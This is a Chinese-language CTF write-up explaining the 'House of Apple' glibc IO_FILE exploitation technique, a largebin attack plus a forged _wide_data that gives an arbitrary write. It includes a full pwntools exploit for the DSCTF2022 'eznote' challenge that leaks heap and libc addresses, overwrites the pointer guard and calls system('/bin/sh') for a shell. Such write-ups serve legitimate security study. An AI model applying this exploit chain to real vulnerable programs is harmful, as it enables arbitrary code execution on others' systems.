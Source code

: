 # House of Apple

> 一直能够适用到libc2.35的house技术

## 0x00 前言

在高版本的Glibc中由于取消了hook的利用，控制程序流就离不开控制IO流：

- [house of pig](https://www.anquanke.com/post/id/242640) 劫持`IO_FILE`结构体，还需要劫持`tcache_perthread_struct`结构体或者能控制任意地址分配.
- [house of kiwi](https://www.anquanke.com/post/id/235598)  修改三个地方的值：`_IO_helper_jumps + 0xA0`和`_IO_helper_jumps + 0xA8`，另外还要劫持`_IO_file_jumps + 0x60`处的`_IO_file_sync`指针；
- [house of emma](https://www.anquanke.com/post/id/260614) 修改两个地方的值，一个是`tls`结构体的`point_guard`(或者想办法泄露出来)，另外需要伪造一个`IO_FILE`或替换`vtable`为`xxx_cookie_jumps`的地址。
- [house of banana](https://www.anquanke.com/post/id/222948) 需要一次`largebin attack`，但是其攻击的是`rtld_global`结构体，而不是`IO`流。

上述方法利用成功的前提均是已经泄露出`libc`地址和`heap`地址。house of Apple也不例外。

## 0x01 条件

1、程序从`main`函数返回或能调用`exit`函数
2、能泄露出`heap`地址和`libc`地址
3、能使用一次`largebin attack`（一次即可）

## 0x02 原理

使用`largebin attack`可以劫持`_IO_list_all`变量，将其替换为伪造的`IO_FILE`结构体，而在此时，我们其实仍可以继续利用某些`IO`流函数去修改其他地方的值。要想修改其他地方的值，就离不开`_IO_FILE`的一个成员`_wide_data`的利用。

我们在伪造`_IO_FILE`结构体的时候，伪造`_wide_data`变量，然后通过某些函数，比如`_IO_wstrn_overflow`就可以将已知地址空间上的某些值修改为一个已知值。

分析一下这个函数，首先将`fp`强转为`_IO_wstrnfile *`指针，然后判断`fp->_wide_data->_IO_buf_base != snf->overflow_buf`是否成立（一般肯定是成立的），如果成立则会对`fp->_wide_data`的`_IO_write_base`、`_IO_read_base`、`_IO_read_ptr`和`_IO_read_end`赋值为`snf->overflow_buf`或者与该地址一定范围内偏移的值；最后对`fp->_wide_data`的`_IO_write_ptr`和`_IO_write_end`赋值。

也就是说，只要控制了`fp->_wide_data`，就可以控制从`fp->_wide_data`开始一定范围内的内存的值，也就等同于**任意地址写已知地址**。

换而言之，假如此时在堆上伪造一个`_IO_FILE`结构体并已知其地址为`A`，将`A + 0xd8`替换为`_IO_wstrn_jumps`地址，`A + 0xc0`设置为`B`，并设置其他成员以便能调用到`_IO_OVERFLOW`。`exit`函数则会一路调用到`_IO_wstrn_overflow`函数，并将`B`至`B + 0x38`的地址区域的内容都替换为`A + 0xf0`或者`A + 0x1f0`。

**伪造的IO_file结构体**

````python
# fake_io = p64(0xfbad1800) #flag
# fake_io += p64(0) #_IO_read_ptr
fake_io = p64(0) #_IO_read_end
fake_io += p64(0) #_IO_read_base
fake_io += p64(0) #_IO_write_base
fake_io += p64(1) #_IO_write_ptr  #write_ptr > write_base
fake_io += p64(0) #_IO_write_end
fake_io += p64(0) #_IO_buf_base
fake_io += p64(0) #_IO_buf_end
fake_io += p64(0) #_IO_save_base
fake_io += p64(0) #_IO_backup_base
fake_io += p64(0) #_IO_save_end
fake_io += p64(0) #_markers 
fake_io += p64(0) #_chain 
fake_io += p32(0) #_fileno 
fake_io += p32(8) #_flags2   #bypass _flag2&8 == 0
fake_io += p64(0) #_old_offset
fake_io += p64(0) #_vtable_offset
fake_io += p64(0) #_lock
fake_io += p64(0) #_offset
fake_io += p64(0) #_codecvt
fake_io += p64(heap_base+0x2760)  #_wide_data -> target
fake_io += p64(0) #_freeres_list
fake_io += p64(0) #_freeres_buf
fake_io += p64(0)*4 #__pad5
fake_io += p64(libc_base+0x1e1c60)  #vtable -> _IO_wstrn_jumps
````

这样的效果就是把``_wide_data``到``_wide_data+0x38``替换为已知堆地址，相当于实现了多次largebinAttack。

~~虽然感觉用处不是很大，~~非常好用！！（具体看下面的例题）好处是`_chian`也是可控的，可以布置IO链配合其他house的方法多次调用，例如配合house of emma ，用house of apple来修改pointer_guard，house of emma拿到shell。

## 0x03 例题

> DSCTF2022 eznote

house of apple改`__pointer_chk_guard `同时控制`_chain`，之后通过`_chain`无缝衔接到house of emma。

````python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='amd64')
context.log_level = 'debug'

elf = ELF("./eznote")

local = 1

if local:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process("./eznote")    
else:
    libc = ELF('./libc.so.6')
    p = remote("","")

def debug(p):
    if local:
        gdb.attach(p)
    else:
        pass

def cmd(i):
    p.sendlineafter(">",str(i))

def add(size,data):
    cmd(1)
    p.sendlineafter("Size:",str(size))
    p.sendlineafter("Content:",data)

def show(idx):
    cmd(4)
    p.sendlineafter("Idx:",str(idx))

def delete(idx):
    cmd(2)
    p.sendlineafter("Idx:",str(idx))

def edit(idx,data):
    cmd(3)
    p.sendlineafter("Idx:",str(idx))
    p.sendlineafter("Content:",data)

def ROL(content, key):
    tmp = bin(content)[2:].rjust(64, '0')
    return int(tmp[key:] + tmp[:key], 2)


add(0x420,'0'*0x30)#0
add(0x420,'1'*0x30)#1
add(0x420,'2'*0x30)#2
add(0x410,'3'*0x30)#3
add(0x420,'4'*0x30)#4
add(0x420,'5'*0x30)#5
add(0x420,'6'*0x30)#6 
add(0x861,"/bin/sh\x00")#7 == 3*430 

show(0)
p.recvuntil("Note0:\n")
heap_base = u64(p.recv(6).ljust(8,b"\x00"))-0x20a0+0x10
log.success("Heap_base ==> "+hex(heap_base))
delete(0)
add(0x420,'0'*0x30)#0
show(1)
p.recvuntil("Note1:\n")
libc_base = u64(p.recv(6).ljust(8,b"\x00"))-0x219ce0
log.success("Libc_base ==> "+hex(libc_base))

fake_io = p64(0) #_IO_read_end
fake_io += p64(0) #_IO_read_base
fake_io += p64(0) #_IO_write_base
fake_io += p64(1) #_IO_write_ptr  #write_ptr > write_base
fake_io += p64(0) #_IO_write_end
fake_io += p64(0) #_IO_buf_base
fake_io += p64(0) #_IO_buf_end
fake_io += p64(0) #_IO_save_base
fake_io += p64(0) #_IO_backup_base
fake_io += p64(0) #_IO_save_end
fake_io += p64(0) #_markers 
fake_io += p64(heap_base+0x1840) #_chain => [new]chunk3
fake_io += p32(0) #_fileno 
fake_io += p32(8) #_flags2   #bypass _flag2&8 == 0
fake_io += p64(0) #_old_offset
fake_io += p64(0) #_vtable_offset
fake_io += p64(0) #_lock
fake_io += p64(0) #_offset
fake_io += p64(0) #_codecvt
fake_io += p64(libc_base-0x2890)  #_wide_data -> __pointer_chk_guard
fake_io += p64(0) #_freeres_list
fake_io += p64(0) #_freeres_buf
fake_io += p64(0)*4 #__pad5
fake_io += p64(libc_base+0x215dc0)  #vtable -> _IO_wstrn_jumps

edit(3,fake_io)

delete(4)
delete(5)
delete(6)
add(0x430,'4'*0x30)#4
delete(3)
io_list_all = libc_base+0x21a680
edit(1,p64(libc_base+0x21a0d0)*2+p64(0)+p64(io_list_all-0x20))

key = heap_base+0x10c0
io_cookie_jumps = libc_base+0x215b80
target = libc_base+0x50d60 # libc.sym['system']
fake_IO_FILE = p64(0x00000000fbad2087)+3 * p64(0)
fake_IO_FILE += p64(0)  # _IO_write_base = 0
fake_IO_FILE += p64(0xffffffffffffffff)  # _IO_write_ptr = 0xffffffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0)  # _IO_buf_base
fake_IO_FILE += p64(0)  # _IO_buf_end
fake_IO_FILE += p64(0)*4
fake_IO_FILE += p64(0)  # _chain
fake_IO_FILE += p64(0)*3
fake_IO_FILE += p64(libc_base+0x2204a0)  # _lock = writable address
fake_IO_FILE += p64(0)*7
fake_IO_FILE += p64(0)  # _mode = 0
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(io_cookie_jumps + 0x60)  # vtable
fake_IO_FILE += p64(heap_base+0x2090)  # rdi '/bin/sh\x00'
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(ROL(target^key,0x11))

add(0x430,fake_IO_FILE)

p.sendlineafter(">","5")

# debug(p)
p.interactive()
````

## 0xFF 参考连接

[House of apple 一种新的glibc中IO攻击方法](https://bbs.pediy.com/thread-273418.htm)